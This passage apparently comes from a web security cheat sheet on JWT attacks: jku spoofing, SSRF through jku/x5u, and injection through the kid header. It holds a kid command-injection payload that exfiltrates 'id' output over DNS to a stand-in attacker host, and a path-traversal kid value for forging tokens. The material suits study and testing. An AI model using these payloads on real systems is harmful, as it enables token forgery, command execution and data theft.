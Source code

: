 Some libraries that decrypt a JWE-encrypted JWT to obtain a JWS-signed object do not always validate the internal signature.

# Security issues (general)

## Spoofing the jku header parameter

The "jku" header parameter is a URI that refers to a resource for a set of JSON-encoded public keys (as [JWK](https://tools.ietf.org/html/rfc7517) set), one of which corresponds to the key used to digitally sign the JWS / one of which the JWE was encrypted. Change a JWT token to point the "jku" parameter value to your webserver with a public key, and sign / encrypt the token with the corresponding private key.

References:
- [Write-Up: WEB - JWT from VolgaCTF Qualifier 2021](https://www.sigflag.at/blog/2021/volgactf2021qualifier-JWT/)

## SSRF via the jku or x5u header parameters

The "jku" ("x5u") header parameter is the URI that the server uses to retrieve the public keys (X.509 public key certificate or certificate chain). You can use it to exploit SSRF vulnerabilities.

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/web-application/server-side-request-forgery" %}

## Injections via the kid header parameter

The `kid` header parameter is used by the relying application to perform key lookup.

### Command injection

`kid` parameter can be passed to the system-like function, that will lead to the command injection:

```json
{
    "alg": "HS256",
    "typ": "JWT",
    "kid": "kid;dig $(id | base64 -w0).attacker-website.com",
}
```

### Path traversal

The `kid` parameter specifies the path to the key in a filesystem, which is used to verify the token. If an attacker enters the path to a file with predictable content in the `kid` parameter, they will be able to generate a forged token since the secret key is already known. One such file is the `/proc/sys/kernel/randomize_va_space`, which is used in Linux systems and has predictable values like `0,1,2`. An attacker can create a malicious token using secret values `0,1,2` and send it to the server.

```json
{
    "alg": "HS256",
    "typ": "JWT",
    "kid": "../../../../../../../dev/null",
}
```
